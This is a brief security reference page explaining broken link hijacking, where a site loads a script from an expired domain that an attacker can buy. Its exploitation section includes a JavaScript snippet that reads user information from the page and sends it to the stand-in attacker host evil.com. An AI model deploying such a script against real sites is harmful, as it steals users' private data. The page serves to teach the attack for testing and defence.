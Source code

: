 ```yaml
---
title: Broken Link Hijacking
description: Broken Link Hijacking is an attack method that attacker can execute arbitrary code by hijacking link e.g. JavaScript file if target website is loading file with broken link.
tags:
    - Web
refs:
    - https://edoverflow.com/2017/broken-link-hijacking/
date: 2023-08-26
draft: false
---
```


## Investigation

Assume that target website loads external JavaScript file in `example.com` no longer exists as below.

```bash
<script src="//example.com/script.js"></script>
```

If attacker bought this domain, he can host arbitrary JavaScript file named **`script.js`** in the `example.com` root directory.

<br />

## Exploitation Examples

Attacker can write arbitrary code for compromising users in **`script.js`** as example above.  
For example, if target website includes sensitive information of authenticated user in the page where the broken link is loaded, attackers can send these information to their owned server.

```jsx
// script.js
var secret = document.getElementById('userinfo');
var request = new XMLHttpRequest();
request.open('GET', 'http://evil.com/?data=' + secret, false);
request.send();
```
